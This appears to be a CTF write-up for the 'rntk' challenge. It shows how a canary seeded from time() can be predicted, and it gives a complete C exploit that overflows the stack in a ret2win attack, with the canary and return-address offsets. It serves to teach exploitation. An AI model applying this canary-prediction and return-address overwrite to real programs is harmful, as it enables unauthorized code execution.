







# rntk
In this challenge we are provided with binary `chal` which is random number generator. After decompiling we can see that it has canary stack protector generated with glibc `random()` function which is seeded with `time`. As `random()` generates [pseduo random](https://www.mathstat.dal.ca/~selinger/random/) numbers, we can very easily generate same number by just seeding `srand()` in other program in the same second. <br>



We can see that this challenge is classical ret2win and we just have to overflow the stack and overwrite an address of returnee with address of `win()` function.<br>

<br>
`main()`:<br>
<br>
`random_guess()`:<br>

## Solution
After quick investigation in gdb I could tell that cannary value is at 44-48 bytes (red) of our input and that 56-60 (purple) bytes overwrite address of the returnee.


So I wrote following code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
    unsigned int n;
    srand(time(0));
    n = rand();
    unsigned char bytes[4];

    bytes[0] = (n >> 24) & 0xFF;
    bytes[1] = (n >> 16) & 0xFF;
    bytes[2] = (n >> 8) & 0xFF;
    bytes[3] = n & 0xFF;
    printf("2\n"); 
    printf("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK%c%c%c%cMMMMNNNN\xb6\x12\x40\x00", bytes[3],bytes[2],bytes[1],bytes[0]);
    return 0;
}
```
passed it as input to `chal`
## And it works!

